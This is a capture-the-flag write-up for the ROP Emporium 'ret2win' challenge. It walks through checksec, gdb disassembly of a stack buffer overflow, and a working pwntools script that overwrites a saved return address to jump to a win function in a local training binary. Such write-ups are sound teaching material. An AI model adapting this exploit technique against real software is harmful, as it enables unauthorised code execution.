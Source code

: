 ```yaml
---
title: Return-Oriented Programming - ret2win
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: ret2win means return here to win and it's recommended you start with this challenge. Visit the challenge page by clicking this card to learn more.
images: []
layout: PostLayout
---
```


## Introduction
Challenge description

>Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.

This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first thing is to check the binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like shellcode.and the behavior of this program we will use gdb. gdb is a tools that enables to inspect the behavior of binaries at runtime.
```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb) 
```
The binary has various functions has as shown in the output above.For initial analysis we start at the main function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret    
End of assembler dump.
(gdb) 
```
From the initial analysis of the main function, we are calling an interesting function called **pwnme**. Next disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave  
   0x0000000000400755 <+109>:	ret    
End of assembler dump.
```
From the disassembled code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory are we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size  32 bytes from the address of base pointer as shown in the stack diagram below.

![](/static/images/ropemporium/stack.png)

Therefore the next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we see we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```
Because we are reading more than the buffer can hold, we corrupt the adjacent memory regions therefore casusing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image shown above is to fill the buffer, overwrite the rbp register and control the return address with our desired address which is **ret2win** function address. 

## Exploit

The exploit code for this ret2win function is,
```python3
import pwn

pwn.context.encoding = "latin-1" 
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the script we get the flag.

```bash
vx@archie:ret2win$ python3 x.py 
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```